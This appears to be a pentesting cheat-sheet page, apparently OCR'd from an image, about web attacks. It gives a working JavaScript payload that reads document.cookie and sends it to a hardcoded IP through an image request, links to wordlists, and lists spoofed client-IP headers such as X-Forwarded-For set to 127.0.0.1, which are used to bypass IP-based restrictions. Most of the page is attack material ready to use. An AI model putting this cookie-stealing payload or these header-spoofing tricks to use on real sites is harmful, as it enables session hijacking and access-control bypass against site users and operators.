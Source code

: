 ```
(function () {
    // Get all cookies from the document
    const cookies = document.cookie;

    // Create a new image object
    const img = new Image();

    // Hardcoded server details
    const serverIP = "10.10.169.69";
    const port = 80;

    // Set the image source to send the cookie data
    img.src = `http://${serverIP}:${port}?data=${encodeURIComponent(cookies)}`;
})();
```


Wordlists & Tools
https://github.com/danielmiessler/SecLists/tree/master/Miscellaneous/Web/http-request-headers

https://github.com/rfc-st/humble

Headers to Change Location
Rewrite IP source:


```

X-Originating-IP: 127.0.0.1

X-Forwarded-For: 127.0.0.1

X-Forwarded: 127.0.0.1

Forwarded-For: 127.0.0.1

X-Forwarded-Host: 127.0.0.1

X-Remote-IP: 127.0.0.1

X-Remote-Addr: 127.0.0.1

X-ProxyUser-Ip: 127.0.0.1

X-Original-URL: 127.0.0.1

Client-IP: 127.0.0.1

X-Client-IP: 127.0.0.1

X-Host: 127.0.0.1

True-Client-IP: 127.0.0.1

Cluster-Client-IP: 127.0.0.1

Via: 1.0 fred, 1.1 127.0.0.1
```
